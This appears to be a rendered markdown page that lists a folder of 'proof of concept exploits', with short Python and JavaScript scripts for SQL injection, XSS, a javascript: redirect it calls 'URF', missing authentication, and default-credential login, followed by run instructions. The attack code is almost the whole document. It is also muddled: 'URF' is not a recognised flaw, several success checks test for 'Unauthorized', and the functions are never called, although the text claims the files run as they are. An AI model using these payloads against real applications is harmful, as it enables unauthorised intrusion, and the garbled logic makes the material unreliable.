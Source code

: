 ```
# Proof of Concept Exploits Folder Structure
├── sql_injection.py
├── xss.js
├── urf.py
├── lack_of_authentication.py
└── sensitive_data_exposure.py

# sql_injection.py
import requests

def exploit_sql_injection(url):
    payload = "' OR 1=1 --"
    params = {"q": payload}
    response = requests.get(f"{url}/search", params=params)
    if "Product" in response.text:
        print("SQL Injection successful!")

# xss.js
const express = require('express');
const app = express();
app.use(express.static('./public'));

app.get('/xss', (req, res) => {
  const payload = "<script>alert('XSS')</script>";
  res.send(payload);
});

# urf.py
import requests

def exploit_urf(url):
    payload = "javascript:alert('URF')"
    response = requests.get(f"{url}/redirect?url={payload}")
    if "Unauthorized" in response.text:
        print("URF successful!")

# lack_of_authentication.py
import requests

def exploit_lack_of_authentication(url):
    response = requests.get(f"{url}/search")
    if "Unauthorized" in response.text:
        print("Lack of authentication successful!")

# sensitive_data_exposure.py
import requests

def exploit_sensitive_data_exposure(url):
    payload = {"username": "admin", "password": "password"}
    response = requests.post(f"{url}/login", json=payload)
    if "Login successful!" in response.text:
        print("Sensitive data exposure successful!")
```
Note: This is a basic implementation of proof-of-concept exploits for each vulnerability. Please do not use these exploits in production as they may cause harm to the application and its users.

Each exploit can be run separately on any machine by changing the `url` variable in the respective script. For example, to run the SQL injection exploit, save `sql_injection.py` in a file, then run it with Python: `python sql_injection.py`.
